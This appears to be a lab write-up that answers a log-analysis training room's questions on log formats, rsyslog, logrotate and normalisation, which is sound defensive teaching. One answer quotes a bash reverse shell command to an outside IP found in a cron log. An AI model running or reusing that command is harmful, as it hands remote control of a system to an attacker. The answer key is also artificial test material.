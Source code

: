 # Intro to Logs

### Expanding Perspectives: Logs as Evidence of Historical Activity
- What is the name of your colleague who left a note on your Desktop?<br />
![image](https://github.com/user-attachments/assets/9c9a98f9-8579-4590-8307-1c3cd072eede)<br />
`Perry`
- What is the full path to the suggested log file for initial investigation? `/var/log/gitlab/nginx/access.log`

### Types, Formats, and Standards
- Based on the list of log types in this task, what log type is used by the log file specified in the note from Task 2? `Web Server Log`
- Based on the list of log formats in this task, what log format is used by the log file specified in the note from Task 2? `Combined`

### Collection, Management, and Centralisation
- After configuring rsyslog for sshd, what username repeatedly appears in the sshd logs at /var/log/websrv-02/rsyslog_sshd.log, indicating failed login attempts or brute forcing?<br />
![image](https://github.com/user-attachments/assets/6a5ee6c2-87e1-4ed2-90f9-0cd97070c5a3)<br />
`stansimon`
- What is the IP address of SIEM-02 based on the rsyslog configuration file /etc/rsyslog.d/99-websrv-02-cron.conf, which is used to monitor cron messages?<br />
![image](https://github.com/user-attachments/assets/3977514e-d1a5-49a5-b60e-f3d83866515b)<br />
`10.10.10.101`
- Based on the generated logs in /var/log/websrv-02/rsyslog_cron.log, what command is being executed by the root user?<br />
![image](https://github.com/user-attachments/assets/0eb6cf9a-4a88-4588-90dd-a2ce1700507a)<br />
`/bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"`

### Storage, Retention, and Deletion
- Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, how many versions of old compressed log file copies will be kept?<br />
![image](https://github.com/user-attachments/assets/3599e368-3650-402a-8a49-c1d9b7bdc233)<br />
`24`
- Based on the logrotate configuration /etc/logrotate.d/99-websrv-02_cron.conf, what is the log rotation frequency? `hourly`

### Hands-on Exercise: Log analysis process, tools, and techniques
- Upon accessing the log viewer URL for unparsed raw log files, what error does "/var/log/websrv-02/rsyslog_cron.log" show when selecting the different filters?<br />
![image](https://github.com/user-attachments/assets/22779fde-1888-40e4-951e-8d9a38af0120)<br />
`No date field`
- What is the process of standardising parsed data into a more easily readable and query-able format? `Normalisation`
- What is the process of consolidating normalised logs to enhance the analysis of activities related to a specific IP address? `Enrichment`
